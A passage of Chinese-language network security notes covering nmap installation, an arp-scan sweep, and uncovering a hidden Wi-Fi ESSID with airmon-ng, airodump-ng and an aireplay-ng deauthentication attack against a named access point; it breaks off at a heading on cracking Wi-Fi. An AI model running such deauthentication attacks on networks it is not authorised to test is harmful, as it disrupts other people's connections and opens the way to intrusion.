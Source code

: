 * Ubuntu 安装 nmap

~~~
sudo apt-get update
sudo apt-get install nmap
~~~



### arp-scan

~~~
arp-scan --interface=eth0 --localnet
~~~



## WLAN

### 找到隐藏的ESSID

* 参考
  * [Discover hidden wireless SSID network using kali linux](https://www.linux.com/forums/small-talk/discover-hidden-wireless-ssid-network-using-kali-linux)
  * [How to get clients mac address for aireplay-ng](https://security.stackexchange.com/questions/146362/how-to-get-clients-mac-address-for-aireplay-ng)
  * [Discover Hidden WiFi SSIDs with aircrack-ng](https://linuxconfig.org/discover-hidden-wifi-ssids-with-aircrack-ng)
  * []()
  * []()

~~~
# 查看无线网卡接口名称，一般是 wlan0 ，或 wlan0mon
iwconfig

# put the wireless interface into monitor mode
airmon-ng start wlan0mon

# dump 中找到可能的目标wifi，ESSID 一列一般显示 <length: 数字>
# 记录下 BSSID 和 CH（channel）
airodump-ng wlan0mon

# airodump 针对 刚刚找到的 BSSID 为目标
# 例如，BSSID = BC:F6:85:BF:4F:70 ， CH = 7
airodump-ng -c 7 --bssid BC:F6:85:BF:4F:70 -w psk wlan0mon

# 另外打开一个 terminal 窗口，执行如下命令，让已经连接的设备端口重连，
# 就能获取 ESSID 信息啦（回到airodump 的terminal 去看）
# -0 = Attack mode 30= de-authentication (The number of deauth packets.) 
# -a = Target access point mac address 
# 
aireplay-ng -0 30 -a BC:F6:85:BF:4F:70 wlan0mon
~~~


### 破解wifi
